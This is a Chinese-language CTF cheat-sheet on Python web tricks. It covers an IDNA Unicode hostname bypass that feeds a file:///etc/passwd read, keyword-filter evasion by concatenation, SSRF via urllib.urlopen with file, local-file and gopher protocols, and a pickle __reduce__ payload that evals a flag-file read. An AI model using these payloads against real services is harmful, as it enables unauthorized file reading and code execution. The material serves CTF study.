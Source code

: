 ## **url中的unicode漏洞**
```
℆这个字符在经过
for h in host.split('.'):
      newhost.append(h.encode('idna').decode('utf-8'))
处理后变成c/u

以及ℂ变成c等
```

于是传入url=file://suctf.cc/etc/passwd
可以变成传入url=file://suℂtf.cc/etc/passwd绕过过滤，最终又变回来
>非预期这个也可绕过：url=file:////suctf.cc/etc/passwd
```
@app.route('/getUrl', methods=['GET', 'POST'])
def getUrl():
    url = request.args.get("url")
    host = parse.urlparse(url).hostname
    if host == 'suctf.cc':
        return "我扌 your problem? 111"


    parts = list(urlsplit(url))
    host = parts[1]
    if host == 'suctf.cc':
        return "我扌 your problem? 222 " + host


    newhost = []
    for h in host.split('.'):
        newhost.append(h.encode('idna').decode('utf-8'))
    parts[1] = '.'.join(newhost)
    #去掉 url 中的空格
    finalUrl = urlunsplit(parts).split(' ')[0]
    host = parse.urlparse(finalUrl).hostname
    if host == 'suctf.cc':
        return urllib.request.urlopen(finalUrl).read()   #http读网站，file读本地文件
    else:
        return "我扌 your problem? 333"
```

^
## **字符绕过**
如果判断是：
if "scan" in self.action:
则action中含有scan字符即可通过。
一般是两种字符按顺序拼接一起可以绕过多个判断，如xx+readscan ，xxread+scan

^
## **请求参数**
flask：
param = urllib.unquote(request.args.get("param", ""))
获取param参数值，如果没有默认为第二个空。

^
## **读文件**
tmpfile = open("./%s" % self.sandbox, 'w')

^
get请求读远程网址中文件前50字节，可能造成ssrf：
urllib.urlopen(param).read()[:50]
使用urllib.urlopen(param) 包含文件，可以直接填写文件路径`./flag.txt`，也可以使用伪协议。

本地文件读取协议:
fie://
local-file://绝对路径 或 local-file://flag.txt
gopher://



^
## **反序列化**


python中反序列化的库主要有两个，`pickle`和`cPickle`，这俩除了运行效率上有区别外，其他没啥区别

`pickle`的常用方法有

```
import pickle

a_list = ['a','b','c']

# pickle构造出的字符串，有很多个版本。在dumps或loads时，可以用Protocol参数指定协议版本，例如指定为0号版本
# 目前这些协议有0,2,3,4号版本，默认为3号版本。这所有版本中，0号版本是人类最可读的；
# 之后的版本加入了一大堆不可打印字符，不过这些新加的东西都只是为了优化，本质上没有太大的改动。
# 一个好消息是，pickle协议是向前兼容的。0号版本的字符串可以直接交给pickle.loads()，不用担心引发什么意外。
# pickle.dumps将对象序列化为字符串
# pickle.dump将序列化后的字符串存储为文件
print(pickle.dumps(a_list,protocol=0))

pickle.loads() #对象反序列化
pickle.load() #对象反序列化，从文件中读取数据
```


ctf中大多数常见的pickle反序列化，利用方法大都是`__reduce__`，实现RCE。
```
# python2代码
import pickle
import urllib

class payload(object):
    def __reduce__(self):
       return (eval, ("open('/flag.txt','r').read()",))

a = pickle.dumps(payload())
a = urllib.quote(a)
print(a) 
# 将生成的序列化串，传入反序列化进行RCE文件读取。
```




